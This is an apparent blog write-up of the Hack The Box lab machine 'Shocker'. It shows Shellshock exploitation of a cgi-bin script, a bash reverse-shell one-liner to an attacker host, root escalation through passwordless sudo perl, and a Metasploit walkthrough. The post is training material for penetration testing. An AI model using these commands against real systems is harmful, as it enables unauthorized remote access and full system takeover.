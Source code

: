 ```yaml
---
layout: post
title: "Shocker"
date: 2020-09-21 22:00:00 -0600
categories: HTB OSCP
tags: HTB Shocker Linux ShellShock
---
```


Shocker is an easy level box on Hack The Box.

## Enumeration

![site](/assets/images/Shocker/site.png)

Same as every machine we are going to start with our autorecon scan. This revealed only 2 open ports, port 80 and port 2222. Nikto and GoBuster didn't show much on their scans other than a `cgi-bin` folder so I decided to throw dirbuster at it with php and sh for extensions to see if there are scripts buried there.

![dibuster](/assets/images/Shocker/dirbuster.png)

This returned a `user.sh` script in the cgi-bin folder, not having much to go on and knowing that machine names are sometimes a hint for machines I decided to poke at this script and an older vulnerability know as [ShellShock](<https://en.wikipedia.org/wiki/Shellshock_(software_bug)>). This took advantage of advantage of a bug in bash to execute arbitrary commands. In my digging I found a tool for finding ShellShock exploitable scripts with the name [shocker](https://github.com/nccgroup/shocker). I was able to use this to exploit our machine with the following command `python shocker.py -H 10.10.10.56 --command /bin/ls -c /cgi-bin/user.sh`

![shocker](/assets/images/Shocker/shocker.png)

Now that we have command execution on the machine we can try to pop a shell. [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has my favorite reverse shell cheat sheet. I decided to go the simple route and try a basic bash reverse shell, we can attempt to get a shell with `/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1` This ended up getting us our shell as the user Shelly

## Elevate

Now that we have a shell I generally default to a `sudo -l` as my first enumeration step and in this case we found some really low hanging fruit for escalation. We can see this user can sudo perl without a password.

![sudo](/assets/images/Shocker/user.png)

Referencing [GTFOBINS](https://gtfobins.github.io/) we can see a fairly simple perl command to get a shell `sudo perl -e 'exec "/bin/sh";'`. Running this gives us our root shell and we can grab our flags and get out.

![got root?](/assets/images/Shocker/got_root.png)

## Metasploit

I wanted to try to a metasploit module for this one to see if I could get it to work the "easy" way as well. We can start off by searching for a metasploit module for shellshock. There is a auxiliary module for scanning so I decided to give that a go first, start off by doing a `use auxiliary/scanner/http/apache_mod_cgi_bash_env`. We need to set the RHOSTS and TARGETURI values here.

![scanner](/assets/images/Shocker/aux.png)

We want to use `exploit/multi/http/apache_mod_cgi_bash_env_exec`. For this to work we need to set basically the same payloads as before, RHOSTS and TARGETURI. Also make sure you have the right LHOST set, it usually defaults to your primary adapter. You can set it to your VPN tunnel with `set LHOST tun0`. Once we have our options set we can fire off the exploit and catch our shell.

![meterpreter](/assets/images/Shocker/got_root_ms.png)
